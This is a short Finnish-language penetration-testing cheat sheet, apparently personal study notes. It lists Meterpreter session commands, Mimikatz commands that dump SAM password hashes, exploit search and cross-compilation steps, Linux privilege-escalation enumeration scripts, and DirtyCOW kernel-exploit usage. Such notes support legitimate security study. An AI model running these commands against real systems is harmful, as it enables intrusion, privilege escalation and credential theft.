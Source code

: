 ```

## Meterpreter
  * Send to background
  * Ctrl+Z

## Jatka sessiota 3:
  * sessions -i 3

## Shell to meterpreter:
  1. send to background
  2. use post/multi/manage/shell_to_meterpreter

## Mimikatz
  * load mimikatz
  * mimikatz_command -f privilege::debug
  * mimikatz_command -f samdump::hashes


# Exploittien haku ja kääntäminen

## searchsploit <hakusana>
  * Exploitin voi kopioida nykyiseen hakemistoon komennolla: searchsploit -m <polku exploittiin>

## Linuxexploitit:
  * gcc exploit.c -o exploit

## Windowsexploitit:
  * apt-get install mingw-w64
  * i686-w64-mingw32-gcc exploit.c -lws2_32 -o exploit.exe


# Privescit

## VNC Viewer: xtightvncviewer

## Näytä kaikki portit ja liikenne
  * Windows: netstat -ano
  * Linux: netstat -tulpn

## Linux privesc

### Cheatsheetit ja muut
 * https://payatu.com/blog_12
 * https://www.hackingarticles.in/linux-privilege-escalation-using-suid-binaries/

### Enumeraatioskriptit:
 * ./LinEnum.sh
 * ./unix-privesc-check |grep WARNING
 * python linuxprivchecker.py extended
 * ./linux-exploit-suggester.sh TAI ./linux-exploit-suggester.sh --uname <uname-string>

### Aina ekaksi kokeile sudo -l

### DirtyCOW (Linux Kernel <= 3.19.0-73.8) ja muut kernel exploitit
 * https://www.exploit-db.com/exploits/40839
 * https://github.com/dirtycow/dirtycow.github.io/wiki/PoCs
 * ./dirty_cow hacker
 * su hacker

### Lokaalien ohjelmien exploittaus
 * netstat -antup, näyttää kaikki portit ja niissä pyörivät softat
 * ps -aux | grep root, listaa roottina ajettavat servicet

```